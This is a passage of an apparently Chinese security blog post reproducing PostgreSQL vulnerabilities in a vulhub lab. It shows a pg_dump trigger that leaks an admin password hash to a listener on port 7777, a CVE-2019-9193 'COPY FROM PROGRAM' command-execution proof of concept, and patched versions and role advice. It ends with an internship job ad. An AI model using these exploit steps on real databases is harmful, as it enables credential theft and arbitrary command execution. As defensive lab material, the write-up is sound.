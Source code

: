 然后在 1**.***.*.** 上监听 7777 端口，等待超级用户触发我们留下的这个 “后门”。  
用超级用户的身份执行 pg_dump 命令：

```
docker-compose exec postgres pg_dump -U postgres -f evil.bak vulhub
```

导出 vulhub 这个数据库的内容。

执行上述命令的同时，“后门” 已被触发，1**.***.*.*** 机器上已收到管理员 MD5 加密的密码：

![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JWCrcXsRRuMSFwRYoT70wZ4FUsaTPNbc2Luw11Y3ibL44Os9C9gKrCXQdibojyJyBs2zEqsZ09tjWNA/640?wx_fmt=png)

**漏洞修复**  

以下版本修复了该突破

```
PostgreSQL PostgreSQL 9.6.8 
PostgreSQL PostgreSQL 9.5.12 
PostgreSQL PostgreSQL 9.4.17 
PostgreSQL PostgreSQL 9.3.22
```

_**_**No.4  
**_**_

_**PostgreSQL 高权限命令执行漏洞**_

_**（CVE-2019-9193）**_  

**受影响版本**

• PostgreSQL 9.3 至 11.2

其 9.3 到 11 版本中存在一处 “特性”，管理员或具有“COPY TO/FROM PROGRAM” 权限的用户，可以使用这个特性执行任意命令。

首先连接到 postgres 中，并执行 POC：

```
DROP TABLE IF EXISTS cmd_exec; 

CREATE TABLE cmd_exec(cmd_output text); 

COPY cmd_exec FROM PROGRAM 'id'; 

SELECT * FROM cmd_exec;
```

![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JWCrcXsRRuMSFwRYoT70wZ4farSzmdffLF4fWGKNgFlUqiaK4kLsCFoCTsfWHiataewjqjcaLoCxCPA/640?wx_fmt=png)

**解决建议**  

pg_read_server_files、pg_write_server_files、pg_execute_server_program 角色涉及到读写数据库服务端文件，权限较大，分配此角色权限给数据库用户时需谨慎考虑。

_**招聘启事**_

安恒雷神众测 SRC 运营（实习生）  
————————  
【职责描述】  
1.  负责 SRC 的微博、微信公众号等线上新媒体的运营工作，保持用户活跃度，提高站点访问量；  
2.  负责白帽子提交漏洞的漏洞审核、Rank 评级、漏洞修复处理等相关沟通工作，促进审核人员与白帽子之间友好协作沟通；  
3.  参与策划、组织和落实针对白帽子的线下活动，如沙龙、发布会、技术交流论坛等；  
4.  积极参与雷神众测的品牌推广工作，协助技术人员输出优质的技术文章；  
5.  积极参与公司媒体、行业内相关媒体及其他市场资源的工作沟通工作。  
【任职要求】   
 1.  责任心强，性格活泼，具备良好的人际交往能力；  
 2.  对网络安全感兴趣，对行业有基本了解；  
 3.  良好的文案写作能力和活动组织协调能力。
